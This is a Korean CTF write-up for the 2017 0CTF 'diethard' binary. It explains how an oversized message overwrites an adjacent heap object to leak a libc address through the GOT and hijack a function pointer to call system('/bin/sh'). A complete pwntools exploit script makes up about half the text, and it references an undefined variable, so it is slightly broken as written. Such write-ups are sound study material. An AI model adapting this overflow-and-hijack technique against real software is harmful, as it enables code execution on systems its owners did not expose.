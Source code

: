 # 2017_0ctf_diethard

## Key words

- x86-64 | NX
- custom heap

## Solution

메뉴는 할당, 해제, 종료 기능이 제공 됩니다.

키워드에 커스텀 힙이라고 한 이유는 사실 잘 분석이 잘 안된 이유도 있고 페이지를 할당하여 그곳에서 힙과 비슷한 동작을 했기 때문에 커스텀 힙이라고 했습니다. 오브젝트 구조와 할당에 관련해서 자세하게 정리한 블로그를 참고하시면 좋을 것 같습니다.[1]

```c
struct Message_Small {
    unsigned long prev_id;
    size_t length;
    char *content;
    void (*print)(char *, size_t);
    char buf[length + 1];
};
struct Message_Large {
    unsigned long prev_id;
    size_t length;
    char *content;
    void (*print)(char *, size_t);
}
```

할당 시 크기를 2016 보다 작게 하면 small로 할당되고 2016이상이 되면 large로 할당이 됩니다.

보통 이런 문제는 문자열 포인터를 덮어서 원하는 주소를 릭 하고, 함수 포인터를 덮어서 실행 흐름을 변경해야 하는데 분석하는 동안에는 어떻게 오브젝트를 덮을 수 있을지 찾지 못했습니다.

그런데 한참 시도 하던 도중 다음과 같은 덤프를 보았습니다.

```python
fn_addMsg(0x400, "A")
fn_addMsg(0x400, "B")
fn_addMsg(2016, "C"*8)
```

```
*** 0x603340 *** :
00000000  00 80 ed f7  ff 7f 00 00  00 88 ed f7  ff 7f 00 00  │····│····│····│····│
00000010  08 90 ed f7  ff 7f 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000020  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│

*** 0x7ffff7ed8000 *** :
00000000  00 00 00 00  00 00 00 00  00 04 00 00  00 00 00 00  │····│····│····│····│
00000010  20 80 ed f7  ff 7f 00 00  76 09 40 00  00 00 00 00  │ ···│····│v·@·│····│
00000020  41 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │A···│····│····│····│
00000030  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│

*** 0x7ffff7ed8800 *** :
00000000  43 43 43 43  43 43 43 43  00 00 00 00  00 00 00 00  │CCCC│CCCC│····│····│
00000010  20 88 ed f7  ff 7f 00 00  76 09 40 00  00 00 00 00  │ ···│····│v·@·│····│
00000020  42 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │B···│····│····│····│
00000030  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│

*** 0x7ffff7ed9008 *** :
00000000  00 00 00 00  00 00 00 00  e0 07 00 00  00 00 00 00  │····│····│····│····│
00000010  00 88 ed f7  ff 7f 00 00  76 09 40 00  00 00 00 00  │····│····│v·@·│····│
00000020  02 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000030  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
```

`0x7ffff7e8810` 위치는 2번째 오브젝트 인데 바로 그 직전인 `0x7ffff7ed8800`에 문자열 `CCCCCCCC`가 씌여졌습니다.

이를 이용하여 먼저 문자열 포인터를 `got@__libc_start_main`으로 덮고, `delete message` 메뉴를 이용하여 libc 주소를 구합니다.

`delete` 메뉴에서는 함수 포인터를 호출 하기 때문에 유용하게 사용될 수 있습니다.

```c
(*(void (__fastcall **)(_QWORD, _QWORD))(g_arrMsg_603340[i] + 0x18))(
  *(_QWORD *)(g_arrMsg_603340[i] + 16),
  (unsigned int)*(_QWORD *)(g_arrMsg_603340[i] + 8));
```

오브젝트를 모두 해제 하고, 다시 위와 같이 할당 한뒤, 함수 포인터를 `system`으로 변경하고 문자열 주소를 `/bin/sh`주소로 변경한뒤, 해제를 하면 쉘이 떨어 집니다.

## Exploit code

```python
from pwn import *
context(arch='amd64', os='linux')

def fn_addMsg(n, msg):
	p.sendline("1")
	print p.recv()

	p.sendline(str(n))
	print p.recv()

	p.sendline(msg)
	print p.recv()

def fn_delMsg(idx):
	p.sendline("2")
	print p.recv()

	p.sendline(str(idx))
	print p.recv()

def fn_leak(addr, n, title=""):
	print "*** {} *** : {}".format(hex(addr), title)
	print hexdump(p.leak(addr, n))

target = "./diethard"
p = process(target)
e = ELF(target)

got_libc = e.got["__libc_start_main"]

print p.recv()

addr_arrList = 0x603340
addr_c1 = 0x7ffff7ed8000
addr_c2 = 0x7ffff7ed8800
addr_c3 = 0x7ffff7ed9008

addr_cc1 = 0x7ffff7eda018

fn_addMsg(0x400, "A")
fn_addMsg(0x400, "B")
payload = "C" * 8
payload += p64(0x30)
payload += p64(got_libc)
payload += p64(0x400976)
fn_addMsg(2016, payload)

fn_leak(addr_arrList, 0x80)
fn_leak(addr_c1, 0x80)
fn_leak(addr_c2, 0x80)
fn_leak(addr_c3, 0x80)

p.sendline("2")
data = p.recvuntil("Which Message You Want To Delete?\n")
data = u64(data.split("1. ")[1][:6].ljust(8, "\x00"))

libc_base = data - 0x20740
addr_system = libc_base + 0x45390
binsh = libc_base + 0x18cd17

p.sendline("10")
print p.recv()

fn_delMsg(0)
fn_delMsg(1)
fn_delMsg(2)

fn_addMsg(1032, "A")
fn_addMsg(1032, "B")
payload = "C"*8
payload += p64(0x20)
payload += p64(binsh)
payload += p64(addr_system)
fn_addMsg(2016, payload)

print "__libc_start_main : " + hex(data)
print "one_shot          : " + hex(one_shot)

fn_leak(addr_arrList, 0x80)
fn_leak(addr_c1, 0x80)
fn_leak(addr_c2, 0x80)
fn_leak(addr_c3, 0x80)

p.sendline("2")
p.interactive()
```

[1]: http://charo-it.hatenablog.jp/entry/2017/03/24/114341
